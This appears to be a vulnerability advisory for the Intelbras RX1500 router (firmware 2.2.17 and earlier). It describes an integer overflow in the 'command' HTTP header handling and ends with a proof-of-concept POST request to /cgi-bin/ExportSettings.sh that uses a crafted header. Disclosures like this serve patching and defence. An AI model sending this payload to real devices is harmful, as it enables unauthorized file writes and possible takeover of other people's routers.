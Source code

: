 #Intelbras  Vulnerability



Vendor:Intelbras  

Product:RX1500

https://www.intelbras.com/en

Version:

RX1500(<=2.2.17)

Vulnerability Type:

Integer Overflow

Attack Type:

Remote



## Vulnerability description

 Intelbras RX1500 Router <=2.2.17 is vulnerable to Integer Overflow. The websReadEvent function incorrectly uses the int type when processing the "command" field of the http header, causing the array to cross the boundary and overwrite other fields in the array,which can cause arbitrary file writing and, in severe cases, arbitrary command execution.

![](https://github.com/feiwuxingxie/cve/blob/main/Intelbras/vul01/01.png)

Like the following http request

```
> POST /cgi-bin/ExportSettings.sh HTTP/1.1
> Host:
> Connection: close
> command-2:///////////////////////////////////////////web_mtn/date
>
> 111
```

